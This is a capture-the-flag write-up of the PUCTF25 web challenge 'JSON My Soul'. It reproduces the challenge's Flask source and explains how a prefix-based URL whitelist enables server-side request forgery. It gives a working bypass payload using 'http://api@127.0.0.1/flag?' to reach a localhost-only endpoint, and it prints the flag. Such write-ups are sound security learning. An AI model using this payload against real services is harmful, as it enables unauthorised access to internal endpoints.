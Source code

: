 # JSON My Soul
Difficulty: ★★★★☆☆☆☆☆☆	&emsp;&emsp;&emsp;&emsp;&emsp;&emsp; Solved by: codestube (youstube_)  
![chall-img](media/chall.png)  

## Details:
- Author: siunam
- Category: Web Exploitation
- Score acquired: 115

## Description:
>G'day mate, I love JSON, so much so that all the data from my internal weather API service are in JSON format!
>
>http://chal.polyuctf.com:41342
>
>[JSON-My-Soul.tar.gz](files/JSON-My-Soul.tar.gz)

## Write up:
We were given a zip file of the what I presume the API source code of [the website](http://chal.polyuctf.com:41342).  
This is the UI:  
![webui](media/webUI.png)  
  
Clicking the `Get Latest Weather Information` updates the website:  
![post-webui](media/post-webUI.png)  

At first, I have 0 clue what this does, except some API calls. Looking at burpsuite and network tab doesn't really give me any clue as to how I should tackle this problem. So I turned to the files in the folder.  
  
I opened up [the python file in api/src](files/JSON-My-Soul/api/src/app.py) and read it.
<details>
  <summary>Click to show script</summary>
  
  ```
  #!/usr/bin/env python3
  from flask import Flask, jsonify

  API_ENDPOINT = '/api/weather'

  app = Flask(__name__)

  # Hard-coded JSON data, as we don't want other third 
  # parties involve in this challenge.
  WEATHER_INFORMATION = {
      'location': 'The Hong Kong Polytechnic University - NuttyShell HQ',
      'description': 'Partly cloudy',
      'temperature': '23',
      'humidity': 78,
  }

  @app.route(API_ENDPOINT, methods=['GET'])
  def getWeatherInformation():
      return jsonify(WEATHER_INFORMATION)

  if __name__ == '__main__':
      app.run('0.0.0.0', port=80, debug=False)
  ```
</details>

So this basically shows what I just saw when clicking the button. Hmm.. I wonder...  
What does the other one [(frontend/src/app.py)](files/JSON-My-Soul/frontend/src/app.py) tell me then?  

<details>
  <summary>Click to show script</summary>
  
  ```
  #!/usr/bin/env python3
  import os
  import requests
  from flask import Flask, render_template, request, jsonify

  FLAG = os.environ.get('FLAG', 'PUCTF25{fake_flag_do_not_submit}')
  WHITELIST_API_URL = os.environ.get('WHITELIST_API_URL', 'http://api')

  API_ENDPOINT = '/api/weather'
  LOCALHOST_IP_ADDRESS = '127.0.0.1'

  app = Flask(__name__)

  @app.route('/', methods=['GET'])
  def index():
      return render_template('index.html', WHITELIST_API_URL=WHITELIST_API_URL)

  @app.route(API_ENDPOINT, methods=['GET'])
  def getWeatherInformation():
      url = request.args.get('url', WHITELIST_API_URL).lower().strip()
      if not url:
          return jsonify({'message': 'Please provide a URL.'})
      if not url.startswith(WHITELIST_API_URL):
          return jsonify({'message': 'Invalid API URL.'})

      try:
          apiResponse = requests.get(f'{url}{API_ENDPOINT}', allow_redirects=False)
          apiJsonData = apiResponse.json()
      except:
          return jsonify({'message': 'Something went wrong with the API service. Sorry!'})

      return apiJsonData

  @app.route('/flag', methods=['GET'])
  def getFlag():
      isClientAddressLocalhost = True if request.remote_addr == LOCALHOST_IP_ADDRESS else False
      if not isClientAddressLocalhost:
          return jsonify({'message': 'Try harder :D'})
      
      return jsonify({'message': FLAG})

  if __name__ == '__main__':
      app.run('0.0.0.0', port=80, debug=False)
  ```
</details>

FLAG! MONKEY SEE FLAG, MONKEY HAPPI! <sub>HUHUHAHA</sub>  
Now the question is, how do we get there..

## My understanding:
While this frontend app.py seem complicated (I have yet learn flask or request in python), one thing is for certain, which is the function getFlag():
```
def getFlag():
    isClientAddressLocalhost = True if request.remote_addr == LOCALHOST_IP_ADDRESS else False
    if not isClientAddressLocalhost:
        return jsonify({'message': 'Try harder :D'})
    
    return jsonify({'message': FLAG})
```
My understanding of this is:
```
function getFlag():
    if clients.ip != localhost(which is 127.0.0.1):
        then tell them "Try harder :D"
    else
        give them the FLAG
```
But how do we change our IP to their server's localhost? that's not possible, right?  
Let's go back and read into the app.py, where we see this:
```
def getWeatherInformation():
    url = request.args.get('url', WHITELIST_API_URL).lower().strip()
    if not url:
        return jsonify({'message': 'Please provide a URL.'})
    if not url.startswith(WHITELIST_API_URL):
        return jsonify({'message': 'Invalid API URL.'})

    try:
        apiResponse = requests.get(f'{url}{API_ENDPOINT}', allow_redirects=False)
        apiJsonData = apiResponse.json()
    except:
        return jsonify({'message': 'Something went wrong with the API service. Sorry!'})

    return apiJsonData
```
- This is a function to get weather information when the button is pressed.
- The url has to start with `WHITELIST_API_URL`, which is `http://api` by default.
- The server uses the API endpoint `/api/weather` to send a request and get the JSON of `apiResponse`
    
This is all normal, except for 1 line. `if not url.startswith(WHITELIST_API_URL):`.  
This is prone to a vulnerability called **Server-Side Request Forgery**, or **SSRF**.  
  
<details>
    <summary> Click to read what SSRF is </summary>
    <h2>A quick run down of what SSRF is:</h2>
    It manipulates a server into making requests to unintended location and accessing internal service.<br><br>
    It happens when an application or website allows users to provide URLS to be used by the server to make requests. When sending a malicious URL to the server, the server will unknowingly follows thorough with the request, and potentially reveal those resources that were not intended to be accessible to the public.<br><br>
    Examples include but not limited to accessing internal databases, reading server configuration (what we're doing now), connecting to internal service (also what we're doing now), and bypassing firewalls.
</details>
So, now, lets dive right in. <sub>vwoop!</sub>

## My Solution:
I tried getting the flag without SSRF, to test my assumption, which would be [`http://chal.polyuctf.com:41342/flag`](http://chal.polyuctf.com:41342/flag)  
![try-harder](media/try-harder.png)  
  
Since the endpoint for the requesting `apiResponse` is `/api/weather`, I'll send the payload from that.  
What the payload currently is: [`chal.polyuctf.com:41342/api/weather`](chal.polyuctf.com:41342/api/weather), which just returns the weather information.  
  
![weather-info-json](media/weather-json.png)
Now, the URL request **MUST** start with ``http://api`` (`if not url.startswith(WHITELIST_API_URL)`).  
So, I'll add a `?url=http://api` at the end of my payload, and see if it still returns weather information.  
  
![weather-still](media/url=http.png)  
Now all I have to do is access the localhost of the API url, by adding `@127.0.0.1` after ``http://api``.  
Then to get the flag, simply get it the same way I did above. `/flag`  
I'll skip the testing part and just go straight to querying the flag as "localhost" with a `?` at the end.  
Therefore the final payload should be [`chal.polyuctf.com:41342/api/weather?url=http://api@127.0.0.1/flag?`](chal.polyuctf.com:41342/api/weather?url=http://api@127.0.0.1/flag?).  
  
![flag](media/flag.png)  

And would you look at that. The flag is right here.  
`{"message":"PUCTF25{WH173l1S7_4Pp0R4cH_C4N_4lS0_b3_BYP4223d_33671ad267a035702f9222a37d6776c2}"}`

## Conclusion:
This was a fun challenge, considering I have not yet learn anything flask and request in python. This challenge made me learn more about different ways to exploit a some-what vulnerable website with SSRF, and alerted me on ways to prevent this when making my own website in the future. Although I kinda asked AI on how the SSRF payload should look like (mind you that I dont have much experience on exploiting website), I still learn a tad bit from this and that's all that matters. :>

## Shoutout:
- NuttyShell (The organizer)
- [Siunam](https://siunam321.github.io/) (The **GOATED** author)
- ChatGPT (was it o4-mini-high? or 4o.. I forgor 💀)
- owo, Bill, Karim (My teammates)

<br>
<sub>
	Tags: HTTP, Python, Flask, Web, Exploitation, SSRF, URL Manipulation, localhost, API, PUCTF, 2025
</sub>